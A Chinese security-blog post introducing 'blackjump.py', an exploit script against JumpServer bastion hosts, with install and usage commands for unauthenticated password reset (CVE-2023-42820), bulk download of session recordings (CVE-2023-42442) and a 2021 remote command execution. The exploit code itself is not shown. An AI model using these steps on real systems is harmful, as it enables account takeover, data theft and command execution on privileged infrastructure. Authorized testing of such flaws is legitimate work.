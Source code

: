 #  工具分享 | 一款JumpServer堡垒机未授权综合漏洞利用脚本（近期更新）  
tarihub  篝火信安   2025-06-25 07:50  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CQf7uHzmVb3cJRXaQcG0XMFzo55tCOgNYdwynprOibLaDibbMibpBWicDWwzTY2aYOdZgw49ibxONGnmbibSqSiar9TWg/640?wx_fmt=png&from=appmsg "")  
  
简介  
  
一款  
JumpServer 堡垒机  
未授权  
综合漏洞利用脚本，支持漏洞  
CVE-2023-42442 / CVE-2023-42820 / RCE 2021，实测能运行，但密码重置和命令执行漏洞利用时会触发报错。  
  
  
支持漏洞  
-  未授权任意用户密码重置 (CVE-2023-42820)  
  
-  未授权一键下载所有操作录像 (CVE-2023-42442)  
  
-  未授权任意命令执行漏洞 (RCE 2021)  
  
安装  
  
python3 -m pip install -r requirements.txt  
  
  
使用指南  
  
python3 blackjump.py {reset,dump,rce} -h  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CQf7uHzmVb3cJRXaQcG0XMFzo55tCOgN6jmoUKMKZxNEoxhguYE2H1ZertVdTgCn1iatSMLYwGhSbhE8wBicyEyg/640?wx_fmt=png&from=appmsg "")  
  
1、CVE-2023-42820  
  
如果知道目标的用户名和邮箱可以指定 --user 和 --email 参数  
  
python3 blackjump.py reset https://vulerability  
  
![img.png](https://mmbiz.qpic.cn/mmbiz_png/CQf7uHzmVb3cJRXaQcG0XMFzo55tCOgNxV7BqW0qz5Xj24tB2dLcQxjRpcRcAB9maN3zrHF6n4bPuhHHnbVGBA/640?wx_fmt=png&from=appmsg "")  
  
2、CVE-2023-42442  
  
output/ 目录下的 <uuid4>.tar 文件扔进 jumpserver播放器播放即可  
> jumpserver播放器：  
> https://github.com/jumpserver/VideoPlayer/releases  
  
  
python3 blackjump.py dump https://vulerability  
  
![img_1.png](https://mmbiz.qpic.cn/mmbiz_png/CQf7uHzmVb3cJRXaQcG0XMFzo55tCOgNVv59tGwcr7jIo1qx90DoBuzicMdKJWGGLG8FcUdVn96vHtL3iaKpA3Ow/640?wx_fmt=png&from=appmsg "")  
  
3、RCE  
> https://github.com/Veraxy00/Jumpserver-EXP (RCE 2021 漏洞在其基础上优化部分情况命令执行失败或获取不到资产问题)  
  
  
python3 blackjump.py rce https://vulerability  
  
![img.png](https://mmbiz.qpic.cn/mmbiz_png/CQf7uHzmVb3cJRXaQcG0XMFzo55tCOgNrsQjicYGuWaQaTR5Ricjak7ZQH4Vjks2qHykzLRO1q85YXiaAuwFU9dqQ/640?wx_fmt=png&from=appmsg "")  
  
  
## 免责声明  
  
本工具仅面向合法授权的企业安全建设行为，在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标使用。  
  
如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/CQf7uHzmVb3icxXWABkpMvXDJ1aDF6RgkCFLMvzDgLEx7jjY4A1n7yTEc2AZmg5CFFoeHJLb3AiblNHRLVFBqlfw/640?wx_fmt=gif&from=appmsg "")  
  
```
```  
  
  
  
